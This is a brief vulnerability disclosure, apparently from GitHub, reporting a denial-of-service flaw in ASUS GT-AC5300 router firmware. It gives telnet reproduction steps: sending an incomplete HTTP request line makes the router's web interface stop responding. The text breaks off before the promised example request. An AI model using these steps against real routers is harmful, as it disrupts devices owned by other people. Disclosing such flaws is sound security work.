

# ASUS GT-AC5300 Denial of Service #

**vender** ：ASUS

**Firmware version**: <=3.0.0.4.384_32738

**Exploit Author**: bigbear@galaxylab.org

**Vendor Homepage**: https://www.asus.com

**Hardware Link**:https://www.asus.com/Networking/ROG-Rapture-GT-AC5300/HelpDesk_BIOS/

## Vul detail ##

Reproduction Steps:
1. telnet router.asus.com 80
1. send "GET / HTTP/1.1\r\n"
1. Now the page http://router.asus.com/ cannot be accessed
1. you can use burp suite to reproduction ,just send http request like this:

